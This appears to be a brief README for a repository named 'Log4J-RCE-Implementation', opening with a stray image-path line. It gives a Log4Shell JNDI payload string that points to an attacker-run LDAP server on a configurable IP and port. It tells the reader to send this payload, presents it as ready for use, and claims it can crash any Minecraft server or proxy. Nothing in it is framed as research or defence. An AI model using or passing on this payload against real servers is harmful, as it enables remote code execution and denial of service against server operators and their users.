 # Log4J-RCE-Implementation

Basically run this (replacing the ip and port to the server in this repo):
${jndi:ldap://127.0.0.1:3710/a}


For now, this is capable of crashing any MC server or proxy
